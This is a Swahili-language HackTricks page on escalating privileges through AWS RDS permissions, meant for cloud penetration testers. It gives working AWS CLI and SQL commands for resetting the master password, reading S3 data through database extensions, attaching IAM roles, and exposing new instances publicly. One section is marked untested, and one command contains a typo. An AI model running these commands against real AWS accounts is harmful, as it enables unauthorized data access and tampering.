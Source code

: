 # AWS - RDS Privesc

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## RDS - Huduma ya Hifadhidata ya Uhusiano

Kwa habari zaidi kuhusu RDS angalia:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Kwa idhini hiyo, muhusika anaweza **kurekebisha nenosiri la mtumiaji mkuu**, na kuingia ndani ya hifadhidata:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Utahitaji kuweza **kuwasiliana na database** (kawaida wanapatikana tu kutoka ndani ya mitandao).
{% endhint %}

**Athari Inayowezekana:** Pata habari nyeti ndani ya mabadiliko.

### rds-db:unganisha

Kulingana na [**nyaraka**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) mtumiaji mwenye idhini hii anaweza kuunganisha kwenye kifaa cha DB.

### Tumia Vibali vya Jukumu la RDS IAM

#### Postgresql (Aurora)

{% hint style="success" %}
Ikiwa unakimbia **`SELECT datname FROM pg_database;`** na ukapata database inayoitwa **`rdsadmin`** unajua uko ndani ya **database ya AWS postgresql**.
{% endhint %}

Kwanza unaweza kuangalia ikiwa database hii imekuwa ikitumika kupata huduma yoyote ya AWS nyingine. Unaweza kuangalia hili ukitazama upanuzi uliofungwa:
```sql
SELECT * FROM pg_extension;
```
Ikiwa unapata kitu kama **`aws_s3`** unaweza kudhani hii database ina **aina fulani ya ufikiaji juu ya S3** (kuna nyongeza nyingine kama vile **`aws_ml`** na **`aws_lambda`**).

Pia, ikiwa una ruhusa ya kukimbia **`aws rds describe-db-clusters`** unaweza kuona ikiwa **kituo kina jukumu la IAM limeambatishwa** katika uga wa **`AssociatedRoles`**. Ikiwa lipo, unaweza kudhani kwamba database ilikuwa **imeandaliwa kupata huduma zingine za AWS**. Kulingana na **jina la jukumu** (au ikiwa unaweza kupata **ruhusa** za jukumu) unaweza **kudhani** ufikiaji wa ziada ambao database ina.

Sasa, ili **kusoma faili ndani ya ndoo** unahitaji kujua njia kamili. Unaweza kuisoma na:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Ikiwa ungekuwa na **mamlaka ya moja kwa moja ya AWS** ungeweza pia kuzitumia kufikia data ya S3 na:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **haina haja ya kubadilisha kipengele chochote cha kikundi cha parameta** ili kuweza kupata upatikanaji wa S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Ndani ya mysql, ikiwa unakimbia swali **`SELECT User, Host FROM mysql.user;`** na kuna mtumiaji anayeitwa **`rdsadmin`**, unaweza kudhani uko ndani ya **AWS RDS mysql db**.
{% endhint %}

Ndani ya mysql kikimbia **`onyesha parameta;`** na ikiwa parameta kama **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, zina thamani, unaweza kudhani kuwa database imeandaliwa kupata data za S3.

Pia, ikiwa una ruhusa ya kukimbia **`aws rds describe-db-clusters`** unaweza kuangalia ikiwa kikundi kina **jukumu lililohusishwa**, ambalo kawaida lina maana ya kupata huduma za AWS).

Sasa, ili **kusoma faili ndani ya ndoo** unahitaji kujua njia kamili. Unaweza kuisoma kwa:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Mshambuliaji mwenye ruhusa za `rds:AddRoleToDBCluster` na `iam:PassRole` anaweza **kuongeza jukumu lililoteuliwa kwa kifaa cha RDS kilichopo**. Hii inaweza kuruhusu mshambuliaji **kupata data nyeti** au kuhariri data ndani ya kifaa hicho.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Athari Kubwa**: Upatikanaji wa data nyeti au mabadiliko yasiyoruhusiwa kwenye data katika kifaa cha RDS.\
Tafadhali kumbuka kuwa baadhi ya DBs inahitaji mipangilio ya ziada kama vile Mysql, ambayo inahitaji kufafanua jukumu la ARN katika vikundi vya aprameter pia.

### `rds:CreateDBInstance`

Kwa ruhusa hii pekee, mshambuliaji anaweza kuunda **kifaa kipya ndani ya kikundi** kilichopo tayari na kina **jukumu la IAM** limeambatishwa. Hataweza kubadilisha nenosiri la mtumiaji mkuu, lakini anaweza kufichua kifaa kipya cha database kwa mtandao:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Jaribio
{% endhint %}

Mshambuliaji mwenye ruhusa za `rds:CreateDBInstance` na `iam:PassRole` anaweza **kuunda kipengee kipya cha RDS kilichounganishwa na jukumu lililoteuliwa**. Mshambuliaji anaweza kisha **kupata data nyeti** au kuhariri data ndani ya kipengee. 

{% hint style="warning" %}
Baadhi ya mahitaji ya jukumu/mtindo wa kipengee cha kuunganisha (kutoka [**hapa**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Jukumu linapaswa kuwepo kwenye akaunti yako.
* Jukumu linapaswa kuwa na jukumu la IAM ambalo Amazon EC2 ina ruhusa ya kudai.
* Jina la mtindo wa kipengee na jina la jukumu la IAM lililohusishwa lazima lianze na kipimo cha `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**Athari Inayowezekana**: Kupata ufikivu wa data nyeti au mabadiliko yasiyoruhusiwa kwenye data katika kifaa cha RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Mshambuliaji mwenye ruhusa za `rds:AddRoleToDBInstance` na `iam:PassRole` anaweza **kuongeza jukumu lililoteuliwa kwenye kifaa cha RDS kilichopo**. Hii inaweza kuruhusu mshambuliaji **kupata ufikivu wa data nyeti** au kubadilisha data ndani ya kifaa hicho.

{% hint style="warning" %}
Kifaa cha DB lazima kiwe nje ya kikundi kwa hili
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Athari Inayowezekana**: Upatikanaji wa data nyeti au mabadiliko yasiyoruhusiwa kwenye data katika kifaa cha RDS.

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
